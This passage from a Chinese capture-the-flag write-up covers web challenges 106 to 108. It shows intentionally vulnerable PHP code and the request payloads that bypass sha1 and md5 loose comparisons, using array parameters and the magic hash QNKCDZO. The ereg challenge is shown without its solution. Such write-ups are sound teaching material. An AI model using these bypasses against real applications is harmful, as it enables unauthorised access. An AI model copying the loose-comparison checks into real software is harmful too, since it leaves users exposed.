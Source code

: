 ## web106（sha1弱碰撞）
```php
<?php

highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}
?>
```
还是弱碰撞，数组绕过
GET：/?v2[]=2
POST：v1[]=1
## web107（md5弱碰撞）
```php
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }
}

?>
```
乍一看什么玩意，v2呢，仔细一看看错了，parse_str就是查询字符串并解析到变量里，第一个参数v1是要解析的字符串，第二个参数v2可选，意味存储变量的数组，所以就简单了，md5弱碰撞绕过
GET：/?v3=QNKCDZO
POST：v1=flag=0
v3经过md5解密后为0e开头的纯数字，会被php当做科学计数法解析成0；v1中字符串会被解析到数组v2中，即v2[flag]=0，0=0满足条件，执行输出。
## web108（ereg NULL截断）
```php
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```